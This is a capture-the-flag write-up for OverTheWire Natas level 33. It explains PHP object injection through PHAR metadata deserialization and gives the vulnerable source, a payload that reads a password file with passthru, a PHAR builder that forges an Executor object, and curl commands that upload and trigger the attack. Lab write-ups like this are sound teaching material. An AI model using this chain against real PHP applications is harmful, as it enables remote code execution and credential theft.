







# Natas — Level 33 → 34

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-31

## Goal

The final level — a firmware upload form:

    Can you get it right?
    Upload Firmware Update: [Choose file] [Upload File]

## Solution

The source defined an `Executor` class driving the whole upload:

    class Executor{
        private $filename="";
        private $signature='adeafbadbabec0dedabada55ba55d00d';
        private $init=False;

        function __construct(){
            $this->filename=$_POST["filename"];
            if(filesize($_FILES['uploadedfile']['tmp_name']) > 4096) {
                echo "File is too big ";
            } else {
                if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], "/natas33/upload/" . $this->filename)) {
                    echo "The update has been uploaded to: /natas33/upload/$this->filename ";
                    echo "Firmware upgrad initialised. ";
                }
            }
        }

        function __destruct(){
            chdir("/natas33/upload/");
            if(md5_file($this->filename) == $this->signature){
                echo "Congratulations! Running firmware update: $this->filename  ";
                passthru("php " . $this->filename);
            } else {
                echo "Failur! MD5sum mismatch! ";
            }
        }
    }

`__destruct()` runs `passthru("php " . $this->filename)` — arbitrary code execution — but only if `md5_file($this->filename)` matches a fixed, hardcoded signature. Since that signature can't be brute-forced, the interesting part isn't the check itself, it's that **any** filesystem function called on a `phar://` path forces PHP to parse that PHAR file's embedded metadata — and that metadata is stored using PHP's native object serialization. That means calling `md5_file("phar://...")` unserializes attacker-controlled data even though the script never calls `unserialize()` directly, and the resulting object's own `__destruct()` fires once it's no longer referenced — with whatever `$filename` and `$signature` were baked into the PHAR's metadata.

First, built the payload that would actually run once the check passed:

    cat > p.php <<'EOF'
    <?php passthru('cat /etc/natas_webpass/natas34'); ?>
    EOF
    md5sum p.php
    6ae14bb82be23c2cbd46a47366cf08c0  p.php

Then built a PHAR file whose metadata is a serialized `Executor` object with `filename` pointing at where `p.php` would live on the server, and `signature` set to `p.php`'s real MD5 — no brute-forcing needed, since this time *we* choose both values:

    class Executor {
        private $filename;
        private $signature;
        private $init = false;
        function __construct($f, $s) { $this->filename = $f; $this->signature = $s; }
    }

    $obj = new Executor('/natas33/upload/p.php', md5_file('p.php'));

    $phar = new Phar('t.phar');
    $phar->startBuffering();
    $phar->addFromString('test.txt', 'text');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->setMetadata($obj);   // <-- our object rides in the metadata
    $phar->stopBuffering();

    php -d phar.readonly=0 buildphar.php
    strings t.phar | grep Executor
    O:8:"Executor":3:{s:18:"...

Uploaded the real payload first, so it would actually exist on the server at the path the forged object points to:

    curl -u natas33:<password> -F 'uploadedfile=@p.php' -F 'filename=p.php' http://natas33.natas.labs.overthewire.org/index.php

Then uploaded the crafted PHAR itself:

    curl -u natas33:<password> -F 'uploadedfile=@t.phar' -F 'filename=t.phar' http://natas33.natas.labs.overthewire.org/index.php

Then triggered the deserialization by referencing the uploaded PHAR through the `phar://` wrapper in the `filename` field of one more request:

    curl -u natas33:<password> -F 'uploadedfile=@p.php' -F 'filename=phar:///natas33/upload/t.phar/test.txt' http://natas33.natas.labs.overthewire.org/index.php

That request's own `__destruct()` calls `md5_file()` on the `phar://` path, which parses `t.phar` and unserializes its metadata into a *second*, attacker-controlled `Executor` object — one whose `filename` is `/natas33/upload/p.php` and whose `signature` is that file's real MD5. When PHP cleans that object up too, its `__destruct()` runs the same check, this time with values we chose ourselves, and it passes:

    Congratulations! Running firmware update: /natas33/upload/p.php
    [REDACTED]

## Result

    Password for natas34: [REDACTED]

## Key Takeaway

`unserialize()` isn't the only path to PHP object injection — any filesystem function (`md5_file()`, `file_exists()`, `file_get_contents()`, `filemtime()`, and others) will silently deserialize a PHAR archive's metadata the moment it's handed a `phar://` URL, with no explicit call to `unserialize()` anywhere in the vulnerable code. A hardcoded, unbrute-forceable check stopped being a wall the moment there was a way to forge an entirely separate object — with both the value being checked and the thing it's checked against — from scratch.

---

Bandit and Natas are both fully complete as of this level.
